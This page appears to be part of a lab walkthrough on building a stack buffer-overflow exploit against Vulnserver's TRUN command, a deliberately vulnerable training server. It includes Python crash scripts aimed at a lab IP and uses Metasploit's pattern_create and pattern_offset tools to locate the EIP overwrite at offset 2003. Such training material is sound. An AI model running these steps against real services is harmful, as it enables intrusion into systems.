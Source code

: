 ```yaml
---
title: "TRUN EIP Overwrite"
layout: home
skin: dark
permalink: /vulnserver/trun/
collection: vulnserver
sidebar:
  nav: "main"
entries_layout: grid
classes: wide
---
```


Begin by using the below proof of concept script, developed by using the SPIKE fuzzer to identify a hole in the Vulnserver TRUN command.

Vulnserver TRUN Python Script: POC
```py
#!/usr/bin/python
import socket
import os
import sys

crash="A"*5000

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running this POC script against Vulnserver produces the same result in the OllyDbg debugger as our previous SPIKE fuzzing attempts. As a very nice bonus, the input we sent has been used to control the value of a very important register in the CPU – the EIP (Extended Instruction Pointer) register. Notice how the EIP register contains the value 41414141?

![trun-eip-overwrite-media-01](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-01.png)

Additional testing proves that a 2500 byte buffer will also cause the Vulnserver application to crash due to an access violation. Create a 2500 byte patterned string to identify which part of the buffer is being stored in the EIP.
	> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

Insert the 2500 character pattern into the Vulnserver TRUN POC Python Script.

Vulnserver TRUN Python Script: Pattern
```py
#!/usr/bin/python
import socket
import os
import sys

crash="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3>

buffer="TRUN /.:/"
buffer+=crash

print "Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running the Vulnserver TRUN Pattern Python Script against the target system shows that the following pattern value is being stored in EIP.

#p align="center">
#  <img src="/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png">
#</p>

![trun-eip-overwrite-media-02 align="center"](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png)

EIP address is 386F4337. Use the Metasploit pattern offset utility to identify where the bytes are located in the 2500 byte buffer.
	 > /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337

![trun-eip-overwrite-media-03](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-03.png)

An exact match was found at offset 2003 bytes.  Modify the buffer in the POC script to now send 2003 "A" characters, 4 "B" characters, and 1993 "C" characters; this should overwrite EIP with 4 "B" characters while retaining a 4000 byte buffer size.
